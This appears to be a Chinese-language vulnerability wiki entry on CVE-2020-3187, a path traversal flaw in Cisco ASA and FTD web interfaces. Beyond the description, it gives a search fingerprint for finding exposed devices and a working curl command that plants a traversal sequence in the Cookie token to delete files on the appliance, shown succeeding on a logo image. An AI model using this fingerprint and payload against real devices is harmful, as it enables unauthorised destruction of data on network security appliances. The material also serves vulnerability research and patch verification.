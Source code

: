 # Cisco ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

<a-checkbox checked>Cisco ASA设备</a-checkbox></br>



![img](/assets/PeiQi-Wiki/img/cisco-1.png)



<a-checkbox checked>Cisco FTD设备</a-checkbox></br>



![img](/assets/PeiQi-Wiki/img/cisco-2.png)

## 网络测绘

<a-checkbox checked>/+CSCOE+/</a-checkbox></br>

<a-checkbox checked>Cisco-ASA</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞" description="" showIcon>
</a-alert>
<br/>

![img](/assets/PeiQi-Wiki/img/cisco-6.png)



例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif



![img](/assets/PeiQi-Wiki/img/cisco-7.png)



使用 curl 发送请求



```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```



![img](/assets/PeiQi-Wiki/img/cisco-8.png)



成功删除图标